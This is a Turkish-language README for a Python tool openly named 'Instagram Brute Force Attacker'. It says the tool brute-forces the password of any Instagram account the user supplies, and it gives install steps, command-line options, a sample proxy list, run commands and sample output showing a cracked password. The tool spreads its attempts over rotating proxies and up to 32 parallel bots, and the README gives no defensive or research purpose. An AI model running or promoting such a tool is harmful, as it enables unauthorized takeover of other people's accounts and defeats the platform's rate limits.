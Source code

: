 # Instagram Brute Force Attacker

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()


Bu program, bir proxy listesi verildiğinde, gönderdiğiniz herhangi bir Instagram hesabına kaba kuvvet uygulayacaktır.

### Notlar

Bu küçük bir deneme projesidir, geliştirmeye devam edilmeyecektir.

### Mali Destek

Projeye destek olmak isterseniz

**Bitcoin Wallet:** 1A9V9srcmERCg5AvHtkRLb3DbZyu2PM9ic<br/>


## Gereksinimler

- Python _v3.9_
- proxy list

## Kurulum Gereksinimleri

### Pipenv Kurulumu

```
pip install pipenv
```

### Çalışma Ortamı

Python 3.9 kurulu olmalıdır

```
pipenv --python 3.9
```

### Kurulum Gereksinimleri

```
pipenv install
```

## Yardim

```
usage: instagram.py [-h] [-u Kullanici] [-p Şifre Listesi] [-px Proxy Listesi] [--prune ISTISNA] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username KullaniciAdi
                        eposta veya kullanıcı adı
  -p PASSLIST, --passlist PASSLIST
                        şifre listesi
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy listesi
  --prune PRUNE         Veritabanından çıkar
  --stats               proxy istatistikleri
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxy

Sistemin çalışması için bir proxy listesine ihtiyacı vardır. Proxy'ler yüklendikten sonra bir veritabanına kaydedilir.<br/>

### Upload

Programa "ip:port" şeklinde proxy listesi yüklenebilir<br/>
`proxies_list.txt`

```
51.79.248.208:28753
51.222.12.245:10084	
5.161.86.206:1080
66.42.224.229:41679
72.210.221.197:4145
184.178.172.25:15291
```

Yukarıda gösterildiği şekilde olmalıdır.

```
python instagram.py -px <proxy listesi>
```

### Durum

Veritabanında bulunan proxylerin çalışıp çalışmadığını gösterir

```
python instagram.py --stats
```

### Prune

Bellirlenen puanın altındaki proxylerin temizlenmesini sağlar

```
python instagram.py --prune 0.05
```

Prune zorunlu değil opsiyoneldir çünkü <br/>
sistem, hangi proxy'lerin düşük performans gösterdiğini otomatik olarak öğrenecek ve bunları kullanmayı bırakacaktır.

### Kullanım

```
python instagram.py -u <HesapAdi> -p <ŞifreListesi>
```

### Çalıştığında

```
[-] Wordlist: sifre.txt
[-] Username: xisouTest0.1
[-] Password: test1648
[-] Complete: 65.51%
[-] Attempts: 1228
[-] Browsers: 173
[-] Exists: True
```

### Tamamlandığında

```
[-] Wordlist: sifre.txt
[-] Username: xisouTest0.1
[-] Password: test1648
[-] Complete: 65.51%
[-] Attempts: 1228
[-] Browsers: 173
[-] Exists: True

[!]Şifre bulundu
[+] Username: xisouTest0.1
[+] Password: test1648
```
